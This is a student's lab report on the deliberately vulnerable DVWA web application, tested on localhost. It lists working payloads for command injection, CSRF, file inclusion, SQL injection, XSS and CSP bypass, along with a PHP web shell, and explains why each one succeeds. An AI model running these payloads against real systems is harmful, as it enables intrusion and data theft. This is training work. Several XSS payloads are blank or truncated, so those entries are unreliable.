# DVWA Testing Report
**Author:** Qasim Shakir  
**University:** Habib University  

---

## 1. Command Injection

Command Injection occurs when an application passes unsafe user-supplied data to a system shell, allowing an attacker to execute arbitrary operating system commands on the server.

---

### Security Level: Low

**Payload:**
```
127.0.0.1 ; whoami
```

**Result:** The server executed the ping command followed by `whoami`, returning the full ping output with `www-data` appended at the bottom.

**Screenshot:** 

**Why it worked:** The application passes the input directly to the underlying shell with no sanitization. The `;` operator is a standard shell separator that allows a second command to execute immediately after the first, regardless of whether the first succeeded or failed.

**Why it fails at higher levels:** The Medium level blacklists both `;` and `&&`, blocking the most common chaining operators.

---

### Security Level: Medium

**Payload:**
```
127.0.0.1 | whoami
```

**Result:** Only `www-data` was returned — the pipe discarded the ping output and returned solely the result of `whoami`.

**Screenshot:** 

**Why it worked:** The developer blacklisted `;` and `&&` but forgot to include `|`. The pipe operator redirects the output of the first command into the second, effectively executing `whoami` and discarding the ping result entirely.

**Why it fails at higher levels:** The High level expands the blacklist to include `|` as well, blocking this bypass.

---

### Security Level: High

**Payload:**
```
127.0.0.1 |whoami
```

**Result:** `www-data` was returned, confirming successful command execution.

**Screenshot:** 

**Why it worked:** The High level blacklist strips `| ` — a pipe followed by a space — but fails to account for a pipe with no trailing space. By removing the space between `|` and `whoami`, the payload slips through the filter entirely. This is a classic example of an incomplete blacklist, where a single missing edge case undermines the entire defence.

---

## 2. Cross-Site Request Forgery (CSRF)

---

### Security Level: Low

**Payload:**
```html
<form action="http://localhost:8080/vulnerabilities/csrf/" method="GET">
  <input type="hidden" name="password_new" value="hehehe">
  <input type="hidden" name="password_conf" value="hehehe">
  <input type="hidden" name="Change" value="Change">
</form>
<script>document.forms[0].submit();</script>
```

**Result:** The admin's password was changed to `hehehe` automatically upon opening the malicious HTML file.

**Screenshot:** 

**Why it worked:** The server only checks for a valid session cookie. Since the admin is already logged into DVWA in another tab, the browser automatically attaches the cookie to the forged request, and the server processes it as legitimate.

**Why it fails at higher levels:** The Medium level introduces a check on the `HTTP_REFERER` header, ensuring requests originate from the DVWA site itself rather than an external file.

---

### Security Level: Medium

**Payload:** Renamed the exploit file to `localhost_exploit.html` and served it while the browser recognized the `localhost` origin.

**Result:** Successfully bypassed the Referer check and changed the password.

**Screenshot:** 

**Why it worked:** The developer used a weak substring check that only looks for the word `localhost` anywhere in the `Referer` header. By including `localhost` in the filename, the header became:
```
Referer: http://.../localhost_exploit.html
```
This satisfied the check despite the request originating externally.

**Why it fails at higher levels:** The High level requires a unique, unpredictable Anti-CSRF token (`user_token`) that must match the token generated for the current session.

---

### Security Level: High

**Payload:**
```bash
curl "http://localhost:8080/vulnerabilities/csrf/?password_new=pwned&password_conf=pwned&Change=Change&user_token=3e0d6297cf52867e97c5da83832b89c5" \
  -b "PHPSESSID=4ch0oj128hv8il4i8erjtmtuj2; security=high"
```

**Result:** The terminal returned HTML containing `<pre>Password Changed.</pre>`.

**Screenshot:** 

**Why it worked:** While token-based protection is robust against forged external forms, it doesn't defend against an attacker who can read the token directly. By manually extracting `user_token` from the page source and including it alongside a spoofed session cookie in a `curl` request, the server received all the "secrets" it required and processed the change as legitimate.

---

## 3. File Inclusion (LFI/RFI)

File Inclusion vulnerabilities occur when an application uses user-supplied input to construct a file path without proper validation, allowing an attacker to read sensitive files from the server or execute remote code.

---

### Security Level: Low

**Payload:**
```
?page=../../../../../../etc/passwd
```

**Result:** The contents of the server's `/etc/passwd` file were rendered directly on the page, exposing all system user accounts.

**Screenshot:** 

**Why it worked:** The `page` parameter is passed directly to PHP's `include()` function without any validation. The `../` sequence traverses up one directory level per pair, allowing us to climb out of the web root entirely and reach the filesystem root where `/etc/passwd` resides.

**Why it fails at higher levels:** The Medium level uses `str_replace()` to strip `../` sequences from the input, attempting to block directory traversal.

---

### Security Level: Medium

**Payload:**
```
?page=....//....//etc/passwd
```

**Result:** Successfully read `/etc/passwd` despite the traversal filter.

**Screenshot:** 

**Why it worked:** The developer used `str_replace()` to delete `../` — but only in a single pass. By nesting the sequence (`....//`), the filter removes the inner `../`, causing the remaining outer characters to collapse and re-form a valid `../`. This is a classic filter evasion technique against non-recursive sanitization.

**Why it fails at higher levels:** The High level implements a whitelist requiring the filename to begin with a specific string, blocking simple traversal payloads.

---

### Security Level: High

**Payload:**
```
?page=file:///etc/passwd
```

**Result:** The contents of `/etc/passwd` were returned by abusing the protocol whitelist check.

**Screenshot:** 

**Why it worked:** The High level's filter requires the input to start with `"file"`, intending to restrict access to known local files like `file1.php`. However, the `file://` URI scheme also satisfies this check since it begins with `file`. By supplying an absolute `file://` path instead of a relative one, we bypassed the whitelist entirely while still forcing the server to read an arbitrary file from the filesystem.

---

## 4. File Upload

The File Upload module demonstrates how an attacker can gain Remote Code Execution (RCE) by bypassing file type restrictions and uploading a malicious script (web shell) to the server.

---

### Security Level: Low

**Payload:** `info.php`
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Result:** The file uploaded successfully. By navigating to the upload path and appending `?cmd=whoami`, the server returned the current username, confirming RCE.

**Screenshot:** 

**Why it worked:** The application performs no validation on the uploaded file's extension or content. It accepts any file and moves it to a publicly accessible directory (`/hackable/uploads/`), allowing the PHP interpreter to execute the malicious script when accessed directly via the browser.

**Why it fails at higher levels:** The Medium level introduces a check on the `Content-Type` header (MIME type) sent by the browser, rejecting any file that does not claim to be an image.

---

### Security Level: Medium

**Payload:** `info.php` *(intercepted and modified via Burp Suite)*

**Result:** Successfully uploaded the PHP shell by spoofing the MIME type.

**Screenshot:** 

**Why it worked:** The server validates the `Content-Type` header in the HTTP request rather than the file itself. Using Burp Suite, the request was intercepted and the header was changed from `application/x-php` to `image/jpeg`. The server accepted the file because the header matched its whitelist, even though the actual file extension remained `.php`.

**Why it fails at higher levels:** The High level moves beyond header checks, validating the actual file extension against a whitelist (e.g. `.jpg`, `.png`) and using `getimagesize()` to verify the file content contains genuine image data.

---

### Security Level: High

**Payload:** `exploit.php.jpg` *(chained with a File Inclusion vulnerability)*

**Result:** The file was accepted by the server as a legitimate image.

**Screenshot:** 

**Why it worked:** Renaming the file to `exploit.php.jpeg` bypasses the extension whitelist check. Appending the PHP payload to a legitimate image file bypasses the `getimagesize()` content check. While the server stores the file as an image and won't execute it directly, execution is achieved by chaining this upload with a File Inclusion vulnerability — forcing the server to parse the `.jpeg` as PHP.

---

## 5. Insecure CAPTCHA

The Insecure CAPTCHA module demonstrates how flawed implementation of third-party verification services (like Google reCAPTCHA) can allow an attacker to bypass automated bot protection entirely.

---

### Security Level: Low

**Vulnerability:** Broken Authentication Flow / Parameter Manipulation

**Exploit Process:**
1. Used Developer Tools (F12) to unhide the password form by setting `style="display: block"`.
2. Intercepted the password change request in Burp Suite.
3. Modified the request parameters to `step=2` and appended `&g-recaptcha-response=passed`.

**Result:** The password was successfully changed without ever solving the CAPTCHA.

**Screenshot:** 

**Why it worked:** The server blindly trusts client-supplied input. It assumes that if `step=2` is present in the request, the user must have already passed CAPTCHA verification in `step=1`. No server-side validation is performed against the Google reCAPTCHA API — the check is purely honour-based.

**Why it fails at higher levels:** The Medium level requires a specific client-side flag to be present before processing the change.

---

### Security Level: Medium

**Vulnerability:** Insecure Parameter Trust (Hardcoded Bypass)

**Exploit Process:**
1. Intercepted the `POST` request using Burp Suite.
2. Changed the `step` parameter from `1` to `2`.
3. Appended the "secret" flag: `&passed_captcha=true`.

**Result:** The server accepted the spoofed flag and updated the password.

**Screenshot:** 

**Why it worked:** The developer attempted to patch the Low-level bypass by requiring a specific flag (`passed_captcha=true`) before processing the change. However, since this flag is a client-side parameter, any attacker intercepting the request can trivially append it themselves — the "fix" simply moved the trust problem one step further without adding real verification.

**Why it fails at higher levels:** The High level introduces server-side logic tied to the `User-Agent` header and a secret response value, requiring a different approach entirely.

---

### Security Level: High

**Vulnerability:** User-Agent Spoofing & Hardcoded Backdoor

**Payload:**

*Header:*
```
User-Agent: reCAPTCHA
```

*Body:*
```
step=2&password_new=high123&password_conf=high123&g-recaptcha-response=hidd3n_valu3&Change=Change
```

**Result:** The password was successfully changed by triggering the server's internal bypass logic.

**Screenshot:** 

**Why it worked:** The High-level defense relies entirely on Security through Obscurity. The server-side code contains a hardcoded backdoor: if the `User-Agent` header is set to `reCAPTCHA` and `g-recaptcha-response` matches the secret value `hidd3n_valu3`, the Google API check is skipped. Since both HTTP headers and request body parameters are fully client-controlled, any tool like Burp Suite can spoof them trivially — obscuring the secret provides no real protection once the source code or traffic is inspected.

---

## 6. SQL Injection

SQL Injection occurs when user-supplied input is incorporated into a database query without proper sanitization, allowing an attacker to manipulate the query logic to extract, modify, or destroy data.

---

### Security Level: Low

**Payload:**
```sql
1' OR '1'='1
```

**Result:** The application returned all user records from the database, confirming the injection was successful.

**Screenshot:** 

**Why it worked:** The input is passed directly into the SQL query without any sanitization. The single quote `'` breaks out of the string context, and `OR '1'='1` makes the entire `WHERE` clause always evaluate to true — causing the database to return every row in the users table.

**Why it fails at higher levels:** The Medium level escapes single quotes using `mysqli_real_escape_string()`, breaking string-based injection syntax.

---

### Security Level: Medium

**Payload:**
```sql
1 OR 1=1
```

**Result:** All user records were returned despite the quote escaping filter.

**Screenshot:** 

**Why it worked:** The Medium level replaces the text input with a dropdown menu and escapes single quotes — but the underlying query uses a numeric parameter with no quotes around it. Since no quotes were needed in the first place, the escaping filter is completely irrelevant. By editing the dropdown values via Developer Tools to inject a numeric payload, the `OR 1=1` condition made the `WHERE` clause always true.

**Why it fails at higher levels:** The High level moves the input to a separate popup window and uses a different query structure, requiring a UNION-based approach to extract data.

---

### Security Level: High

**Payload:**
```sql
1' UNION SELECT user, password FROM users #
```

**Result:** All usernames and their MD5-hashed passwords were extracted from the database and displayed on the page.

**Screenshot:** .png) .png)

**Why it worked:** The High level accepts input through a separate popup window (`session-input.php`) which writes the value to the session rather than the URL, bypassing any frontend validation. However the backend query remains injectable. Using a `UNION SELECT` statement with the correct number of columns, we appended a second query that pulled `user` and `password` directly from the `users` table. The `#` comment character discarded the rest of the original query.

---

## 7. SQL Injection (Blind)

Blind SQL Injection occurs when the application does not return query results directly, forcing the attacker to infer data through indirect signals such as conditional responses or time delays.

---

### Security Level: Low

**Payload:**
```sql
1' AND (SELECT SUBSTRING(database(),1,1)) = 'd' #
```

**Result:** The application returned "User ID exists in the database," confirming the first character of the database name is `d`.

**Screenshot:** 

**Why it worked:** The input is not sanitized, allowing for Boolean-based inference. By asking the database True/False questions (e.g., "does the database name start with 'd'?"), data can be leaked one character at a time based on whether the page returns a positive or negative response.

**Why it fails at higher levels:** The Medium level escapes single quotes, which breaks the SQL string syntax used in this specific payload.

---

### Security Level: Medium

**Payload:**
```sql
1 AND IF(ASCII(SUBSTRING(DATABASE(),1,1))=100, SLEEP(5), 0)
```

**Result:** The server response was delayed by 5 seconds, confirming the first letter is `d` (ASCII 100).

**Screenshot:** 

**Why it worked:** Since quotes are escaped, numerical ASCII values and a time-based attack (`SLEEP`) were used to confirm data. If the condition is true, the server hangs for 5 seconds before responding — providing a reliable binary signal without needing visible output.

**Why it fails at higher levels:** The High level uses a separate popup for input and includes a `LIMIT 1` clause in the query, requiring a specific bypass using comment characters to ignore the rest of the query.

---

### Security Level: High

**Payload:**
```sql
1' AND (SELECT 1 FROM (SELECT(SLEEP(5)))a) #
```

**Result:** A successful 5-second delay was observed via the separate input window.

**Screenshot:** 

**Why it worked:** The `#` comment character ignores the `LIMIT 1` constraint added by the developer. By using a subquery with `SLEEP`, a time-based delay is still triggered despite the more restrictive query structure.

---

## 8. Weak Session IDs

This module demonstrates how predictable session identifiers can be exploited for Session Hijacking.

---

### Security Level: Low

**Payload:** Observed the `dvwaSession` cookie value across multiple page refreshes.

**Result:** Cookie values incremented sequentially: `1`, `2`, `3`, `4`...

**Screenshot:** 

**Why it worked:** The server uses a simple integer counter that increments by one with every new session. This makes it trivial for an attacker to predict any user's session ID and hijack it by manually setting their cookie to the next value in the sequence.

**Why it fails at higher levels:** The Medium level generates session IDs from a Unix timestamp, which is significantly harder to guess than a sequential counter.

---

### Security Level: Medium

**Payload:** Inspecting the cookie value: `1741578355`

**Result:** The value matches the Unix timestamp at the exact moment of the request.

**Screenshot:** 

**Why it worked:** While harder to guess than a counter, a timestamp is still predictable. An attacker can brute-force a narrow time window to enumerate valid session IDs belonging to users who authenticated around the same time.

**Why it fails at higher levels:** The High level hashes the underlying value with MD5, obscuring the predictable logic behind an apparently random string.

---

### Security Level: High

**Payload:** Cookie value: `c4ca4238a0b923820dcc509a6f75849b`

**Result:** A 32-character hexadecimal string that appears random.

**Screenshot:** 

**Why it worked:** Cross-referencing the hash against known MD5 values reveals it is simply `md5("1")` — a hash of the same sequential counter used at the Low level. Although the output looks cryptographically strong, the source entropy is still trivially predictable, making the session IDs just as vulnerable to enumeration once the underlying pattern is identified.

---

## 9. XSS (DOM)

DOM-based Cross-Site Scripting occurs when the vulnerability exists in client-side code rather than server-side code. The script executes when client-side scripts write data from an untrusted source (like the URL) to a dangerous "sink" (like `document.write`) without proper sanitization.

---

### Security Level: Low

**Payload:**
```
http://localhost:8080/vulnerabilities/xss_d/?default=English<script>alert(1)</script>
```

**Result:** The browser executed the alert box immediately upon page load.

**Screenshot:** 

**Why it worked:** The page uses a JavaScript function to read the `default` value directly from the URL's query string, then passes it to `document.write()` to render the default language selection. Since no sanitization is applied, the browser interprets the `<script>` tag embedded in the URL as executable code.

**Why it fails at higher levels:** The Medium level introduces a server-side check that scans the URL for the string `<script` and redirects the user if it is detected.

---

### Security Level: Medium

**Payload:**
```
http://localhost:8080/vulnerabilities/xss_d/?default=English</option>
```

**Result:** The alert triggered successfully, bypassing the script-tag filter.

**Screenshot:** 

**Why it worked:** The developer's filter only checks for the literal string `<script`. By switching to an `` tag with an `onerror` event handler, the filter is bypassed entirely. The payload first closes the existing `<option>` tag, then injects the malicious image element directly into the DOM.

**Why it fails at higher levels:** The High level adopts a whitelist approach, only permitting known language strings (e.g. `English`, `French`, `German`) to be processed by the server.

---

### Security Level: High

**Payload:**
```
http://localhost:8080/vulnerabilities/xss_d/?default=English#<script>alert(1)</script>
```

**Result:** The alert triggered by hiding the payload from the server-side filter entirely.

**Screenshot:** 

**Why it worked:** The High-level defense is enforced server-side by inspecting URL parameters. However, anything after a fragment identifier (`#`) is never sent to the server — it exists only in the browser. By placing the payload after `#`, the server-side whitelist never sees it, yet the client-side JavaScript reads the full URL and writes the malicious script into the page regardless.

---

## 10. XSS (Reflected)

Reflected Cross-Site Scripting occurs when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

---

### Security Level: Low

**Payload:**
```html
<script>alert('XSS')</script>
```

**Result:** A browser alert box appeared with the message `XSS`.

**Screenshot:** 

**Why it worked:** The server-side PHP code takes the string from the `name` GET parameter and passes it directly to the browser without any filtering or encoding. The browser sees the `<script>` tags and executes the JavaScript immediately.

**Why it fails at higher levels:** The Medium level uses a basic `str_replace()` to look for the literal string `<script>`. This simple check fails to account for case sensitivity or nested tags.

---

### Security Level: Medium

**Payload:**
```html
<scr<script>ipt>alert(1)</script>
```
*(alternatively: `<ScRiPt>alert(1)</sCrIpT>`)*

**Result:** The alert box triggered successfully, bypassing the filter.

**Screenshot:** 

**Why it worked:** The developer's filter strips the literal string `<script>`. By nesting the tag (`<scr<script>ipt>`), the filter removes the inner `script`, causing the remaining characters to collapse into a valid `<script>` tag. Alternatively, mixed-case variants like `<sCrIpT>` work because `str_replace()` is case-sensitive.

**Why it fails at higher levels:** The High level uses `preg_replace()` with a regex aggressive enough to catch `<s*c*r*i*p*t` regardless of case or embedded characters, stripping any variation of the script tag.

---

### Security Level: High

**Payload:**
```html

```

**Result:** The alert box triggered via an alternative HTML element.

**Screenshot:** 

**Why it worked:** While the High level successfully blocks all variations of `<script>` via regex, it does not account for other HTML tags capable of executing JavaScript through event handlers. Injecting an `` tag with a broken source (`src=x`) causes the browser to fire the `onerror` event, executing the alert.

---

## 11. XSS (Stored)

Stored Cross-Site Scripting (also known as Persistent XSS) occurs when an application receives data from a user, stores it in a database, and then includes that data in HTTP responses to other users in an unsafe way.

---

### Security Level: Low

**Payload:**
```html
Message: <script>alert('Stored XSS')</script>
```

**Result:** Every time the guestbook page loads, the alert box triggers for any user viewing the page.

**Screenshot:** 

**Why it worked:** The application takes input from the "Message" field and saves the raw, unencoded string directly into the database. When the page loads, the server pulls this string and renders it into the HTML — the browser interprets the stored `<script>` tags as executable code.

**Why it fails at higher levels:** The Medium level implements a character limit on the input field and a basic `str_replace()` filter to remove `<script>` tags from the "Name" field.

---

### Security Level: Medium

**Payload:**
```html
Name: <sCrIpT>alert(1)</sCrIpT>
```
*(Injected via Burp Suite to bypass the HTML `maxlength` attribute)*

**Result:** The alert box triggered successfully and the script was persisted to the database.

**Screenshot:** 

**Why it worked:** The developer's filter checks the "Name" field for the lowercase string `<script>` only. Using mixed case (`<sCrIpT>`) bypasses the case-sensitive `str_replace()` check entirely. Since the UI enforces a character limit client-side via `maxlength`, Burp Suite was used to intercept and modify the request directly, circumventing that restriction before it ever reaches the server.

**Why it fails at higher levels:** The High level uses `strip_tags()` or more aggressive regular expressions that catch all variations of HTML tags regardless of case.

---

### Security Level: High

**Payload:**
```html
Name: 
```
*(Injected via Burp Suite)*

**Result:** The alert box triggered for every user who loaded the guestbook page.

**Screenshot:** 

**Why it worked:** Similar to the Reflected High bypass, the developer focused exclusively on blocking `<script>` variants but did not sanitize against other HTML elements that support event handlers. By storing an `` tag with a broken `src`, the browser fires the `onerror` event and executes the payload — and because it's stored, every subsequent visitor is affected.

---

## 12. CSP Bypass

Content Security Policy (CSP) is a browser security mechanism that restricts which scripts a page is allowed to load and execute. This module demonstrates how misconfigured or weakly implemented CSP headers can be bypassed entirely.

---

### Security Level: Low

**Payload:**
```
http://localhost:8080/vulnerabilities/csp/source/evil.js
```

*Where `evil.js` contains:*
```javascript
alert('CSP Bypass Low')
```

**Result:** The alert box fired after submitting the self-hosted script URL.

**Screenshot:** 

**Why it worked:** The CSP whitelist allows scripts from `'self'` — meaning any script hosted on the same origin as DVWA is trusted. A malicious script was planted directly inside the container at `/var/www/html/vulnerabilities/csp/source/evil.js`. Submitting its local URL caused the page to inject `<script src='...evil.js'></script>`, which the browser loaded and executed without any CSP violation.

**Why it fails at higher levels:** The Medium level removes the URL input entirely and instead drops user input directly into the page body, requiring a different injection approach.

---

### Security Level: Medium

**Payload:**
```html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
```

**Result:** The alert box fired immediately after submitting the payload.

**Screenshot:** 

**Why it worked:** The CSP at this level uses a nonce — a token that must be present on any `<script>` tag for it to execute. However, the nonce is hardcoded in the PHP source and never regenerated, making it static and predictable. By extracting the nonce directly from the page source and attaching it to the injected script tag, the browser accepted it as a trusted script and executed it.

**Why it fails at higher levels:** The High level removes inline input injection entirely, relying instead on a JSONP endpoint for dynamic functionality.

---

### Security Level: High

**Payload:** *(Executed in the browser console)*
```javascript
var s = document.createElement('script');
s.src = '/vulnerabilities/csp/source/jsonp.php?callback=alert';
document.body.appendChild(s);
```

**Result:** The alert box fired with the value `15`.

**Screenshot:** 

**Why it worked:** The page makes a legitimate JSONP call to `/vulnerabilities/csp/source/jsonp.php?callback=solveSum` to compute a sum. The CSP only allows `'self'` — but that endpoint is already same-origin. By injecting a new `<script>` tag pointing to the same endpoint with `callback=alert` instead of `callback=solveSum`, the server responds with `alert(15)`, which the browser executes without any CSP violation. The endpoint blindly wraps its response in whatever callback name is supplied, making it trivially exploitable.

---

## 13. JavaScript

---

### Security Level: Low

**Payload:** `phrase.value = "success"`; `generate_token()` *(Executed in browser console)*

**Result:** The hidden token was updated to match the hash for the word "success," and the submission was accepted with "Well done!".

**Screenshot:** 

**Why it worked:** The security logic (ROT13 + MD5) is entirely client-side. By using the browser console, we can manually manipulate variables and force the script to re-calculate a valid token for our new input before the form is submitted.

**Why it fails at higher levels:** The Medium level moves the logic into an external `.js` file, which prevents the console from directly seeing the `generate_token` function in the global scope.

---

### Security Level: Medium

**Payload:** `phrase.value = "success"`; `do_elsesomething("XX")`

**Result:** The "sandwich" token (`XX` + `success` + `XX` reversed) was generated and accepted.

**Screenshot:** 

**Why it worked:** By inspecting the "Sources" tab, the external `medium.js` file was located and reverse-engineered to reveal it required a specific function call with the string `"XX"`. Calling this manually in the console synced the hidden token field with the modified input.

**Why it fails at higher levels:** The High level uses code obfuscation (packing), making the source code look like gibberish and hiding the logic from simple inspection.

---

### Security Level: High

**Payload:** `token.value = sha256("XX" + phrase.value.split("").reverse().join(""))`

**Result:** Form submitted successfully after manual token synchronization.

**Screenshot:** 

**Why it worked:** Even though the code was obfuscated, the browser still loads the `sha256` hashing library into global memory. By understanding the underlying logic (reversing the phrase and adding the `"XX"` prefix), the calculation was performed manually in the console and the token field updated directly — bypassing the obfuscation entirely.
